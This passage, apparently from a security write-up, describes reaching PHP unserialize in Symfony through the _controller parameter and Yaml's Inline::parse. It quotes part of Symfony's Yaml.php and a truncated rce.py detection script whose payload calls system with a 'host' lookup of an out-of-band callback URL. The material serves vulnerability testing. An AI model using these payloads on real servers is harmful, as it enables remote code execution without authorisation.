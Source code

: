 
To use the _controller componment we need to specify all the argument of the 
called function. 

File: <span style='color:red'>\<ROOT\>/vendor/symfony/yaml/Yaml.php</span>
```php
<?php

/*
 * This file is part of the Symfony package.
 *
 * (c) Fabien Potencier <fabien@symfony.com>
 *
 * For the full copyright and license information, please view the LICENSE
 * file that was distributed with this source code.
 */

namespace Symfony\Component\Yaml;

use Symfony\Component\Yaml\Exception\ParseException;

/**
 * Yaml offers convenience methods to load and dump YAML.
 *
 * @author Fabien Potencier <fabien@symfony.com>
 *
 * @final
 */
class Yaml
{
    const DUMP_OBJECT = 1;
    const PARSE_EXCEPTION_ON_INVALID_TYPE = 2;
    const PARSE_OBJECT = 4;
    const PARSE_OBJECT_FOR_MAP = 8;
    const DUMP_EXCEPTION_ON_INVALID_TYPE = 16;
    const PARSE_DATETIME = 32;
    const DUMP_OBJECT_AS_MAP = 64;
    const DUMP_MULTI_LINE_LITERAL_BLOCK = 128;
    const PARSE_CONSTANT = 256;
    const PARSE_CUSTOM_TAGS = 512;
    const DUMP_EMPTY_ARRAY_AS_SEQUENCE = 1024;
    const DUMP_NULL_AS_TILDE = 2048;

...

```

Here is the sample of the code use to test if it's possible to trigger an unserialize using `Symfony\Component\Yaml\Inline::parse`:

File: <span style='color:red'>rce.py</span>
```python

...

def yaml(self, oob_url, parse_url):
    # Checks that it is possible to trigger
    # an Out Of Bound RCE using Symfony\Component\Yaml\Inline
    # to leverage a call to unserialize.
    #
    # return (array[bool]) [True, url] if the functions
    # has been executed, False otherwise.
    printf("un", f"Using _controller with Yaml's Inline::parser() function ...")
    results = []
    payloads = [
        {"function": "system", "parameter": f"host {oob_url}"},
```